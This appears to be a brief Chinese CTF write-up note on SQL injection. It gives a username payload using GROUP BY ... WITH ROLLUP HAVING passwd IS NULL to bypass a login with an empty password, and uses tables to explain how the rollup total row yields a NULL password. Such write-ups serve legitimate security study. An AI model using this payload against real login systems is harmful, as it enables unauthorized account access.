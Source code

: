 tags:: [[CTF/SQL]]

- # 登陆
	- username填`' or 1 group by passwd with rollup having passwd is NULL#`，密码不填
	- 原理
		- 原表格
			- |username|passwd|
			  |---|---|
			  |xxx|yyy|
		- `group by passwd`根据密码分组
			- |username|passwd|
			  |---|---|
			  |xxx|yyy|
		- `with rollup`创建“总计”行，其中passwd为NULL
			- |username|passwd|
			  |---|---|
			  |xxx|yyy|
			  |xxx|NULL|
		- `having passwd is NULL`选中“总计”行
			- |username|passwd|
			  |---|---|
			  |xxx|NULL|
	-